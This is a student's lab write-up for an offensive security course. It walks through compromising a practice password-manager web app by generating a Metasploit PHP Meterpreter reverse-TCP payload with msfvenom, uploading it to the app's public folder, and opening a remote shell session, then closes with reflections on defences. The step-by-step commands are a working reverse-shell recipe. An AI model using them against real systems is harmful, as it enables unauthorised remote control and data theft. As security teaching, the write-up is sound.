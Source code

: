 # W6 | Offensive Security

## Introduction  
We've built the walls. Now it’s time to think like someone trying to break through them.

In this lab, we’ll take on the role of an attacker exploiting a vulnerability in the HusKey Manager app. Using **Metasploit** we’ll craft and deliver a **payload** to gain unauthorized remote access to the target machine. We’ll then interact with the compromised system just like a real world attacker would.

We’ll:
- Identify an exploitable weakness in the web app
- Generate a custom payload using **msfvenom**
- Use **Metasploit** to open a reverse shell to the compromised target

This lab is your first real taste of offensive security essential knowledge for understanding how attackers think and how to build defenses that stop them.


## Steps
1. Identify the vulnerability in the password manager system. (Commonly done with reconnaissance techniques)
2. Open Docker and spin up two terminals: one deploying the password manager, one deploying Metasploit with the command docker run --rm -it -p 4444:4444 metasploitframework/metasploit-framework. Confirm a unique ASCII image and LHOST was created. 
3. Before creating the payload, run this command(saved as load.php in webapp) to ensure a php file can be run on the server ``` <?php$files = scandir(getcwd()); print_r($files);?>```
4. In the Metasploit terminal, run this command to create the payload. /usr/src/metasploit-framework/msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your EXTERNAL IP address> LPORT=4444 -f raw
5. Once the payload loads, remove the long comment tag <?php ... ?> before the payload and save the raw code in a text editor as reverse_tcp.php
6. Select the payload in the msfconsole with command use php/meterpreter/reverse_tcp and confirm the LHOST and LPORT match your metasploit container's IP address and the appropriate port (4444).
7. Enter command exploit to start listening in for connections from victim’s machine 
8. Move the reverse_tcp.php under the public folder of the webapp so the web server executes the PHP file.
9. Once the payload runs, enter sessions -l for listing all active connections
10. Enter sessions -l <ID> i.e. sessions -l 1 to connect to a specific session.
11. Once connected, use the command prompt to access files, run commands and find sensitive information.
<img width="80%" alt="image" src="https://github.com/user-attachments/assets/c496474e-7dae-4442-ab97-9644cdd5383c" />

*Confirm LHOST, LPORT before launching payload*

<img width="80%" alt="image" src="https://github.com/user-attachments/assets/29defdd7-06d8-46e3-ac1c-d217cdee35bb" />

*Command prompt displayed for Session ID 1*

## Reflection
Msfvenom creates Meterpreter, a PHP payload that’s executed on the Password Manager. It establishes a reverse TCP connection from the victim’s machine back to my attacking machine(LHOST IP address, LPORT 4444). Once the connection is established the payload provides an interactive shell that executes commands and control’s the victim’s machine remotely. Meterpreter is the active component of the attack, so it’s the malware itself that **translates the identified vulnerability into actual control** over the target.

**A handler is needed for the REVERSE_TCP payload to work properly**. Since the payload programs the victim’s machine to initiate a connection back to us(attacker) rather than us initiating a connection to the victim(often blocked by firewalls), handlers act as a listening server accepting incoming connections from the victim. When the EXPLOIT command is run, it starts the handler and tells Metasploit to open up that port on our machine and wait for the victim’s payload to connect. In other words, if there’s no listener, there’s no connection.

Based on the lab the hacker mindset is clearly demonstrated through contrarian thinking (identifying unexpected entry points through PHP file uploads), commitment (methodically working through multiple steps to gain access), and creativity (crafting custom payload to establish a reverse connection). The key defensive lessons are about input validation and permission restrictions. To prevent such attacks, you would need to implement strict file upload validation to reject executable code like PHP scripts, properly configure server permissions to limit execution rights, regularly update systems to patch vulnerabilities, and implement defense-in-depth strategies where multiple security layers must be breached to access sensitive data. Understanding how attackers think and operate provides essential insight needed to build more secure defenses against sophisticated attacks.

<img width="50%" alt="image" src="https://github.com/user-attachments/assets/ebffd8f1-4bd7-40be-a0f1-2be03a36ace0" />
